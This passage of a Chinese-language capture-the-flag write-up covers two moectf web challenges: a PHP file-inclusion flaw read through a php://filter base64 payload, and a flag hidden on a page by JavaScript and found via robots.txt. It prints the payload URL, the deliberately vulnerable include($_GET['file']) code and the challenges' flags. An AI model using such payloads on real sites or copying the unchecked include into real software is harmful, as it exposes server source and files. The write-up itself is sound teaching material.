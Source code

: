 ```
http://39.108.11.206:10003/?file=php://filter/read=convert.base64-encode/resource=index.php
```

将得到的base64进行解码得到

```php
<?php
error_reporting(0);
echo '<p>the flag was put in the index.php, can you get it?</p>';


$file=$_GET['file'];
include($file);
//moectf{YoU_g0t_f1@g}
?>
```

### Restrictions

> 搜索引擎是不能为所欲为的
> 题目即本站
> Hint: Unlock Hint for 50 points

花了 50 points 看了 Hint

```json
{
    "success": true, 
    "data": {
        "cost": 50, 
        "id": 16, 
        "type": "standard", 
        "challenge": 9, 
        "content": "<script>alert(\"here's some magic\")</script>"
    }
}
```



这是在暗示什么？初看没什么卵用……

分析：搜索引擎本身就是爬虫，需要遵循 robots 协议。懂了……

```
https://moectf.cn/robots.txt
```
![web-24.png](https://img-blog.csdnimg.cn/2019091419455197.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2lsb3ZlaXR2bQ==,size_16,color_FFFFFF,t_70)
结果跟一般的 robots.txt 内容还不一样。。内容大概是说：可以给你flag，但意外的执行了某些事。网页执行了某些事不就是 执行了 js代码么，去源码一看究竟：

```html
<div class="delete">
moectf{j4vascrlpt_c4n_m0dlfy_w3bpages}
</div><script>
var target = document.querySelector(".delete");  
target.innerHTML = "oops, seems that something executed unexpectedly";
</script>
```
